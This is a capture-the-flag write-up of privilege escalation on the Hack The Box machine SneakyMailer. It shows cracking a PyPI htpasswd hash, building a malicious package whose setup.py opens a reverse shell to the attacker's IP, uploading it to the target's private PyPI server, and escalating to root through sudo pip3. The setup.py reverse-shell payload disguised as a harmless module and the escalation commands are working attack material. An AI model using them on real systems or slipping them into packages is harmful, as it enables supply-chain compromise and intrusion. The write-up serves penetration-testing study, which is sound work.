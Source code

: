 # 20 - PrivEsc


# pypi.sneakycorp.htb
```bash
www-data@sneakymailer:~$ ls -l 
total 16
drwxr-xr-x 3 root root 4096 Jun 23  2020 dev.sneakycorp.htb
drwxr-xr-x 2 root root 4096 May 14  2020 html
drwxr-xr-x 4 root root 4096 May 15  2020 pypi.sneakycorp.htb
drwxr-xr-x 8 root root 4096 Jun 23  2020 sneakycorp.htb
```

pypi.sneakycorp.htb stands out, we need to visit to check if it is any different.

# pypi password hash
```bash
╔══════════╣ Analyzing Htpasswd Files (limit 70)
-rw-r--r-- 1 root root 43 May 15  2020 /var/www/pypi.sneakycorp.htb/.htpasswd
pypi:$apr1$RV5c5YVs$U9.OTqF5n8K4mxWpSSR/p/
```

Authentication is maybe enabled. 


# Cracked
```bash
$apr1$RV5c5YVs$U9.OTqF5n8K4mxWpSSR/p/:soufianeelhaoui
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: Apache $apr1$ MD5, md5apr1, MD5 (APR)
Hash.Target......: $apr1$RV5c5YVs$U9.OTqF5n8K4mxWpSSR/p/
Time.Started.....: Mon Sep  6 19:36:54 2021 (6 mins, 0 secs)
Time.Estimated...: Mon Sep  6 19:42:54 2021 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:    10115 H/s (12.50ms) @ Accel:128 Loops:500 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 3614208/14344385 (25.20%)
Rejected.........: 0/3614208 (0.00%)
Restore.Point....: 3613952/14344385 (25.19%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:500-1000
Candidates.#1....: souhern4u -> soucia

Started: Mon Sep  6 19:36:52 2021
Stopped: Mon Sep  6 19:42:56 2021
```

Credentials:

* pypi: soufianeelhaoui


# PyPi

![](vx_images/506275048701.png)

pypi is the place where you install python modules. This looks like a custom server but it does not have any packages at the moment. Hopefully, we can upload something ourselves. When "pip install <package>" is run *pip* executes setup.py from the package. A reverse shell smuggled in setup.py could possibly give us a shell.

# install-modules.py
```bash
www-data@sneakymailer:~$ ps -ef |  grep low
low       1111     1  0 Sep06 ?        00:00:44 /home/low/venv/bin/python /opt/scripts/low/install-modules.py
```

There is a python process executing install-modules.py as low. install-modules.py does not like to be read by others but the filename speaks for itself. User low wants to install modules, we can take a shot at its own pypi server.


# PyPi Module Upload

# Package Structure
```bash
┌─[user@parrot]─[10.10.14.9]─[~/htb/sneakymailer/pypi]
└──╼ $ find -type f -ls
   531713      4 -rw-r--r--   1 user     user            1 Sep  7 12:40 ./malicious_pypi/__init__.py
   532901      4 -rw-r--r--   1 user     user          570 Sep  7 13:32 ./setup.py
```


setup.py is executed when the package pip installed. Before smuggling our reverse shell, we need to create a file to point setup.py to the target box otherwise by default it would try to upload to pypi.org 


# ~/.pypirc

```bash
┌─[user@parrot]─[10.10.14.9]─[~/htb/sneakymailer]
└──╼ $ cat ~/.pypirc 
[distutils]
index-servers = sneaky

[sneaky]
repository: http://pypi.sneakycorp.htb:8080/
username: pypi
password: soufianeelhaoui
```



# setup.py
```py
┌─[user@parrot]─[10.10.14.9]─[~/htb/sneakymailer/pypi]
└──╼ $ cat setup.py 
from setuptools import setup
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.9",4444))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])



setup(
   name='malicious_pypi',
   version='1.0',
   description='A useful module',
   author='Man Foo',
   url = 'http://pypi.sneakycorp.htb:8080/packages/',
   author_email='foomail@foo.com',
   packages=['malicious_pypi'],  #same as name
   install_requires=['wheel', 'bar', 'greek'], #external packages as dependencies
)
```

setup.py is ready. Now we are free to upload our malicious package. Setup.py executes the reverse shell on our box first, if we want a shell from the other party, we should close and reopen netcat.

# Upload  


```bash
┌─[user@parrot]─[10.10.14.9]─[~/htb/sneakymailer/pypi]
└──╼ $ python3 setup.py sdist upload -r sneaky
```

We should get a shell just in a few seconds.

# User low
![](vx_images/4870593658730.png)


# Sudo 
```bash
low@sneakymailer:/home$ sudo -l

sudo: unable to resolve host sneakymailer: Temporary failure in name resolution
Matching Defaults entries for low on sneakymailer:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User low may run the following commands on sneakymailer:
    (root) NOPASSWD: /usr/bin/pip3
```

This part is easy. pip3 is one of the gtfobins.

# Root
```bash
low@sneakymailer:/home$ TF=$(mktemp -d)
low@sneakymailer:/home$ echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
low@sneakymailer:/home$ sudo /usr/bin/pip3 install $TF
sudo: unable to resolve host sneakymailer: Temporary failure in name resolution
Processing /tmp/tmp.zElt8QwTRW
# id
uid=0(root) gid=0(root) groups=0(root)
# 
```
